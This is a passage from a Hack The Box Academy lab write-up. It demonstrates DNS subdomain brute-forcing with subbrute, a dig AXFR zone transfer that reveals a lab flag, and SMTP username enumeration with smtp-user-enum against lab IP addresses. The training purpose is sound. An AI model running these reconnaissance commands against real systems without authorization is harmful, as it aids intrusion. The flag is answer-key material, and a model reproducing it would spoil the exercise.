 
### Attacking DNS

13.  Find all available DNS records for the "inlanefreight.htb" domain on the target name server and submit the flag found as a DNS record as the answer. 

As hints suggest to use subbrute. This tool allows us to use self-defined resolvers and perform pure DNS brute-forcing attacks during internal penetration tests on hosts that do not have Internet access.
```c
./subbrute.py inlanefreight.htb -s ./names.txt -r ./resolvers.txt

/home/r3so1v3/Hacking/academy/common-services/subbrute/./subbrute.py:462: SyntaxWarning: invalid escape sequence '\.'
  permute_filter = re.compile("^[a-zA-Z0-9]{" + str(self.permute_len) + "}\.")
Warning: Fewer than 16 resolvers per process, consider adding more nameservers to resolvers.txt.

inlanefreight.htb
hr.inlanefreight.htb  
```

So it took quite a long time to get `hr` subdomain but when I got it, the next step is to use dig utility with DNS query type AXFR option to dump the entire DNS namespaces from a vulnerable DNS server:
```c
dig AXFR @10.129.27.0 hr.inlanefreight.htb

; <<>> DiG 9.19.19-1-Debian <<>> AXFR @10.129.27.0 hr.inlanefreight.htb
; (1 server found)
;; global options: +cmd
hr.inlanefreight.htb.   604800  IN      SOA     inlanefreight.htb. root.inlanefreight.htb. 2 604800 86400 2419200 604800
hr.inlanefreight.htb.   604800  IN      TXT     "HTB{LUIHNFAS2871SJK1259991}"
hr.inlanefreight.htb.   604800  IN      NS      ns.inlanefreight.htb.
ns.hr.inlanefreight.htb. 604800 IN      A       127.0.0.1
hr.inlanefreight.htb.   604800  IN      SOA     inlanefreight.htb. root.inlanefreight.htb. 2 604800 86400 2419200 604800
;; Query time: 422 msec
;; SERVER: 10.129.27.0#53(10.129.27.0) (TCP)
;; WHEN: Fri Oct 04 21:28:37 +05 2024
;; XFR size: 5 records (messages 1, bytes 230)

```

### Attacking Email Services

14.  What is the available username for the domain inlanefreight.htb in the SMTP server?

For enumeration of smtp service we can use script https://github.com/pentestmonkey/smtp-user-enum/blob/master/smtp-user-enum.pl
```c
smtp-user-enum -M RCPT -U users.list -D inlanefreight.htb -t 10.129.188.131
Starting smtp-user-enum v1.2 ( http://pentestmonkey.net/tools/smtp-user-enum )

 ----------------------------------------------------------
|                   Scan Information                       |
 ----------------------------------------------------------

Mode ..................... RCPT
Worker Processes ......... 5
Usernames file ........... users.list
Target count ............. 1
Username count ........... 79
Target TCP port .......... 25
Query timeout ............ 5 secs
Target domain ............ inlanefreight.htb
```